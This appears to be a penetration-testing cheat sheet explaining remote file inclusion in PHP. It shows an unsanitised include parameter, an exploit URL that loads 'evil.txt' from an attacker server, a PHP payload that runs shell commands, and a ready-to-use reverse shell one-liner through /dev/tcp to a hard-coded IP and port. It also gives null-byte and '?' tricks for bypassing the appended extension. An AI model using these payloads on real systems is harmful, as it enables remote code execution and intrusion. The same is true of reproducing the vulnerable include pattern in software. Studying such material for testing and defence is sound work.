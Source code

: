 # Remote File Inclusion

A remote file inclusion vulnerability lets the attacker execute a script on the target-machine even though it is not even hosted on that machine. 

RFI's are less common than LFI. Because in order to get them to work the developer must have edited the **php.ini** configuration file.

This is how they work.

So you have an unsanitized parameter, like this

```
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

Now what you can do is to include a file that is not hosted on the victim-server, but instead on the attackers server.

```
http://exampe.com/index.php?page=http://attackerserver.com/evil.txt
```

And evil.txt will look like something like this:

```
<?php echo shell_exec("whoami");?>

# Or just get a reverse shell directly like this:
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>

```

So when the victim-server includes this file it will automatically execute the commands that are in the evil.txt file. And we have a RCE.


## Avoid extentions

Remember to add the nullbyte **%00** to avoid appending **.php**. This will only work on php before version 5.3. 

If it does not work you can alsog add a **?**, this way the rest will be interpreted as url parameters.